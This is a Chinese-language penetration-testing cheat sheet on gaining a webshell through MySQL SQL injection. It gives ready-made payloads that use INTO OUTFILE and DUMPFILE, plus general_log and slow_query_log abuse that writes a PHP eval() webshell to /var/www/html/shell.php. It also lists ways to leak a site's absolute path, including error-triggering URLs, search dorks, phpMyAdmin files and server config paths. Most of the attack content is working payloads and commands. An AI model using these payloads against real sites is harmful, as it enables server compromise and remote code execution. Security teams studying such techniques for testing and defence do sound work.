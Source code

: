 # 文件导出函数GetShell

## 利用条件

- 数据库当前用户为`root`权限
- 知道当前网站的绝对路径
- PHP的GPC为off状态
- 写入的那个歌路径存在写入权限

## 基于联合查询时

```mysql
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile '网站根目录绝对路径'-- qwe
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile '网站根目录绝对路径'-- qwe
```

## 非联合查询

```mysql
?id=1 into outfile '网站根目录绝对路径' FIELDS TERMINATED BY '<?php phpinfo();?>'-- qwe
```

这个语句的意思是，导出当前数据表到xxx文件中，数据表中的字段以`<?php phpinfo();?>`分隔

形如：

```
id username password 导出后会变成
id<?php phpinfo();?>username<?php phpinfo();?>password
```

## outfile和dumpfile的区别

`outfile:`

1. 支持多行数据同时导出
2. 使用union联合查询时，要保证两侧查询的列数相同
3. 会在换行符制表符后面追加反斜杠
4. 会在末尾追加换行

`dumpfile:`

1. 每次只能导出一行数据
2. 不会在换行符制表符后面追加反斜杠
3. 不会在末尾追加换行

因此，`dumpfile`函数这个函数来顺利写入二进制文件，当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效），当使用`dumpfile`函数时，应该手动添加limit限制来获取不同的行数。

## secure_file_prive

写文件提权，终究是离不开这个配置项：

```
secure_file_prive= ，结果为空的话，表示允许任何文件读写

secure_file_prive=NULL，表示不允许任何文件读写

secure_file_prive=‘某个路径’，表示这个路径作为文件读写的路径

在mysql5.5版本前，都是默认为空，允许读取

在mysql5.6版本后 ,默认为NULL，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。
```

查询该参数配置的情况：

```mysql
show global variables like "%secure%";
```

利用sql语句修改配置项（5.6版本以前，临时修改重启失效）：

```mysql
set global secure_file_prive=""
```

`5.6`版本以后，只能利用配置项修改：

![](img/visitFile&sign=663485c2367709ae3dee4da9b50af7d0.png)

# 日志GetShell

## 全局日志Getshell

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来

```mysql
# 查看日志是否开启
show variables like 'general_log';

# 开启日志功能
set global geeral_log=on;

# 查看文件日志保存位置
show variables like 'general_log_file';

# 设置日志保存位置（getshell的话存放在网站根目录，名为.php）
set global general_log_file='/var/www/html/shell.php';

# 查看日志输出类型 table：将日志存入数据库的日志表中；file：将日志存入文件中
show variables like 'log_output';

# 修改日志存储类型
set global log_output='table/file';
```

GetShell方式：

```mysql
set global geeral_log=on;
set global general_log_file='/var/www/html/shell.php';
select '<?php eval($_POST[8]);?>'
```

## 慢日志GetShell

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式

```mysql
# 查看服务器默认时间值方式
show global variables like '%long_query_time%'
show global variables like '%long%'

# 查看慢日志参数
show global variable like '%slow%';
```

GetShell方式：

```mysql
# 打开慢日志
set global slow_query_log=on

# 设置慢日志路径
set global slow_query_log_file='/var/www/html/shell.php'

# 记录到日志中的语句
select '<?php @eval($_POST[8]);?>' or sleep(20)
```

# 爆绝对路径的方法

上述的提权方式都离不开知道网站的绝对路径，下面是一些得到绝对路径的方法。

## 单引号爆路径

- 直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
   `www.xxx.com/news.php?id=1′`

## 错误参数值爆路径

- 将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
   `www.xxx.com/researcharchive.php?id=-1`

## Google爆路径

- 结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

## 测试文件爆路径

- 很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

## phpmyadmin爆路径

- 一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

## 配置文件找路径

- 如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

# Linux

为什么要把Linux单独提出来说，因为Linux的权限控制很严格，有的时候即使我们完全控住了MYSQL 但是 没有对网站根目录的读写权限，也会很没有办法去利用上述方法写shell